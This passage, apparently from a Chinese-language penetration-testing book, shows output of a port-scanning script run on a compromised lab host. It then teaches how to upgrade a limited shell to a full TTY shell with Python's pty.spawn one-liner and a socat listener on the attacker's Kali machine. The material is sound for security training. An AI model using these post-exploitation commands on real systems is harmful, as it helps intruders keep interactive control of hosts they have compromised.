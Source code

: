 如果你在其中一台受控主机上运行该脚本，如 *p-web-01*（172.16.10.10），它应该会产生以下输出：

```
$ **./port-hopper.sh**

`--snip--`
Port 34457 is not reachable.
Port 34458 is not reachable.
Port 34459 is reachable, attempting a connection... 
```

在下一部分，我们将讨论几种方法，帮助我们在没有超级用户权限的情况下，将新的二进制文件传输到目标环境，而不需要从公共仓库下载官方软件包。

## 使用伪终端设备生成 TTY Shell

这里有一个你可能在未来的 shell 破解冒险中遇到的场景：你访问的受限 shell 可能不提供完整的 TTY（终端）支持。非 TTY shell 具有有限的命令行编辑、没有作业控制、输出格式不完整和缺失信号处理，并且它们可能无法在交互式应用程序中工作，如文本编辑器。

升级 shell 为功能丰富的 TTY shell 的一种常见方法是使用伪终端。*伪终端* 提供了一个接口，允许进程与类似终端的设备进行交互，从而使终端应用程序、shell 和其他程序能够像连接到物理终端一样工作。

### Python 的 pty 模块

Python 的 pty 模块模拟物理终端设备的功能。在以下示例中，我们通过使用 pty.spawn() 函数，将 Python shell 升级为完全交互的 TTY bash shell。尝试在 Kali 主机上运行它，看看它的效果：

```
$ **python**

Python 3.xx (main, Feb 12, 00:48:52) on linux
Type "help", "copyright", "credits" or "license" for more information.

>>> **import pty**
>>> **pty.spawn("/bin/bash")**

$ 
```

要退出 Python 控制台，输入 exit()。

在安装了 Python 的受控主机上，你可以通过执行以下命令来提升你的 shell 权限：

```
$ **python3 -c 'import pty; pty.spawn("/bin/bash")'**
```

请记住，Python 必须在受控主机上可用，才能使用此技术。

### socat

如果目标主机和你的本地攻击系统上都存在 socat 工具，你可以使用它来生成 TTY shell。我们通常使用 socat 在两个数据通道之间进行双向通信。

在 Kali 上，运行 socat 命令以生成 TTY shell：

```
$ **socat file:$(tty),raw,echo=0 tcp-listen:1337**
```
